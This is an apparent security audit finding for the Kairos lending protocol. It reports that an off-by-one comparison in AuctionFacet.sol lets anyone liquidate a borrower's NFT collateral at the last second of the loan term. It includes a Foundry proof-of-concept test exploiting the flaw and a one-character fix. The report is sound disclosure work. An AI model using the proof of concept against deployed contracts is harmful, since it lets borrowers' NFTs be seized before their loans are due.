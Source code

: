dingo

medium

# Liquidator can liqudate NFT during loan duration time.

## Summary
SC: AuctionFacet.sol
Due to the unappropriated check of loan status, especially `endDate` variable, there is opportunity to liquidate loan at the last second(block) of loan duration. After overview of whole project there is no doubt, that main volume of borrow/repay process will be done by scripts.
To pay exactly at last time of loan duration is cost-effective and valuable for borrower. So if user set in script paydate = last time of loan duration, he can be liquidated by anyone. If loan duration 10 sec , at 10th second(not after) there is opportunity to liq.

## Vulnerability Detail
Core of vulnerability lies at `AuctionFacet.sol` function `checkLoanStatus`.
There is `<` shoud be replaced by `<=`.

```soldiity
    function checkLoanStatus(uint256 loanId) internal view {
        Loan storage loan = protocolStorage().loan[loanId];

        if (block.timestamp < loan.endDate) { // `<` shoud be replaced by `<=`
            revert CollateralIsNotLiquidableYet(loan.endDate, loanId);
        }
        if (loan.payment.paid != 0 || loan.payment.liquidated) {
            revert LoanAlreadyRepaid(loanId);
        }
    }
```
Now let's look at test:
![image](https://user-images.githubusercontent.com/106747559/227466343-8f8a2d9d-7368-4fcb-b03f-e1124dcb51b8.png)
Test code:
```soldiity
function testLiquidateInLastBlockOfDuration() public {

        deal({token: address(money), to: BORROWER, give: 100e18}); //mint ERC20
        deal({token: address(money), to: signer, give: 100e18}); //mint ERC20
        deal({token: address(money), to: signer2, give: 100e18}); //mint ERC20
        
        getJpeg(BORROWER, nft); //mint NFT to Borrower; aproved there too
        vm.prank(signer);
        money.approve(address(kairos),1e18);

        //===Let's check all balances before any action.
        console.log("ERC20 borrower balance:                    ", money.balanceOf(BORROWER));
        console.log("ERC20 SIGNER   balance:                    ", money.balanceOf(signer));
        console.log("ERC20 SIGNER2  balance:                    ", money.balanceOf(signer2));
        console.log("NFT   borrower balance:                    ", nft.balanceOf(BORROWER));
        console.log("Timestamp before borrow:                   ", block.timestamp);
        uint256 timestampBeforeBorrow = block.timestamp; //for console.log purpose

        //Now let's prepare arg's for borrow() function
        NFToken memory nftStruct;
        nftStruct = NFToken({implem: nft, id: 1});
        OfferArg[] memory offerArgs = new OfferArg[](1);
        Offer memory offer;
        offer =  Offer({
                assetToLend: money,
                loanToValue: 1e18,
                duration: 10,  // let's set duration for 10 second.
                expirationDate: block.timestamp+100,
                tranche: 0,
                collateral: nftStruct
                });
        
        offerArgs[0] = OfferArg({
                signature: getSignature(offer),
                amount: 1e18,
                offer: offer
                });
        BorrowArg[] memory borrowArgs = new BorrowArg[](1);
        borrowArgs[0] = BorrowArg({nft: NFToken({id: 1, implem: nft}), args: offerArgs});
        
        //Start borrow
        vm.startPrank(BORROWER);
        kairos.borrow(borrowArgs);
        console.log("Timestamp after borrow:                    ", block.timestamp);
        vm.stopPrank();

        //Let's prepare arg's for buy() for liquidation process on behalf of signer2
        vm.startPrank(signer2);
        money.approve(address(kairos),100000000000000000000); 

        vm.warp(block.timestamp+offerArgs[0].offer.duration); //Let's warp time at the last second of loan duration.
        BuyArg[] memory buyArgum = new BuyArg[](1); 
        uint256[] memory loanId = new uint256[](1); 
        loanId[0] = 1;
        buyArgum[0] = BuyArg({
                        loanId:1,
                        to: signer2
                        });
        kairos.buy(buyArgum); //Signer2 will successfuly liquidate NFT in duration time. 

        console.log("ERC20 borrower balance after liquidate:    ", money.balanceOf(BORROWER));
        console.log("ERC20 SIGNER   balance after liquidate:    ", money.balanceOf(signer));
        console.log("ERC20 SIGNER2  balance after liquidate:    ", money.balanceOf(signer2));
        console.log("NFT borrower balance after liquidate:      ", nft.balanceOf(BORROWER));
        console.log("Signer2 balance after liquidate:           ", nft.balanceOf(signer2));
        console.log("Timestamp after liquidate after liquidate: ", block.timestamp);
        console.log("=================================================================");
        console.log("Loan duration                              ", offerArgs[0].offer.duration);
        console.log("Actual diff between liquidate and borrow   ", block.timestamp-timestampBeforeBorrow);
    }
```

## Impact
User can lost their NFT.

## Code Snippet
https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L80

## Tool used
Manual Review

## Recommendation
Replace `<`  by `<=`. in `checkLoanStatus()`.

```soldiity
    function checkLoanStatus(uint256 loanId) internal view {
        Loan storage loan = protocolStorage().loan[loanId];

        if (block.timestamp <= loan.endDate) { // `<` shoud be replaced by `<=`
            revert CollateralIsNotLiquidableYet(loan.endDate, loanId);
        }
        if (loan.payment.paid != 0 || loan.payment.liquidated) {
            revert LoanAlreadyRepaid(loanId);
        }
    }
```
In such case there no option to liquidate during loan duration.
![image](https://user-images.githubusercontent.com/106747559/227467071-17bc743c-d9f9-4835-ba44-879d5df7ca58.png)
